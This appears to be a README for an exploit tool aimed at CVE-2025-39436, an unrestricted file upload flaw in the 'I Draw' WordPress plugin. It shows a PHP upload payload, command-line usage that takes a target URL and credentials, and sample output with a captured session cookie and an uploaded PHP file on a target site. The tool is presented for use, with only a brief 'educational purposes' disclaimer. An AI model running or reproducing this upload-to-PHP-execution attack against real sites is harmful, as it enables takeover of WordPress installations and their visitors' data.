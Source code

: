 # 🚨 WordPress Plugin Exploit: CVE-2025-39436

## 📝 Description
An **Unrestricted Upload of File with Dangerous Type** vulnerability exists in the "I Draw" WordPress plugin. This exploit allows attackers to upload malicious files without restriction. The issue impacts **I Draw versions up to 1.0**.

---

## 🛠️ Exploit Details
The exploit leverages the plugin's file upload functionality to execute a PHP payload. Below is the default payload used:

```php
php_code = "<?php echo 'Im Nxploited | Khaled Alenazi'; ?>"
```

---

## 🚀 Usage
```bash
usage: CVE-2025-39436.py [-h] -u URL -un USERNAME -p PASSWORD

options:
  -h, --help            Show this help message and exit
  -u, --url URL         Target website URL
  -un, --username USERNAME
                        Username
  -p, --password PASSWORD
```

---

## 💻 Script Output Example
```plaintext
[✅] Login successful.
[🍪] Cookies here:
wordpress_logged_in_4b00801d41db6e7d9e0ed0af2c824ea0=admin%7C1746301986%7CZvXtaLwW7AlgtJ9JxOH24nAo8G6WqoSQGYcz6xGSNe1%7C53cc2f686eb1e4265e17fcb0823d5e7349ffdc7b86ec8099453b5e80e7c2b51a
[✅] File uploaded successfully:
[🔗] http://target/wp-content/uploads/2025/4/19/nxploit.php
```

---

## ⚠️ Disclaimer
This script is provided for **educational purposes only**. The author takes no responsibility for any misuse or damage caused by this exploit. Use it at your own risk.

---

*By: Nxploited ( Khaled Alenazi )*
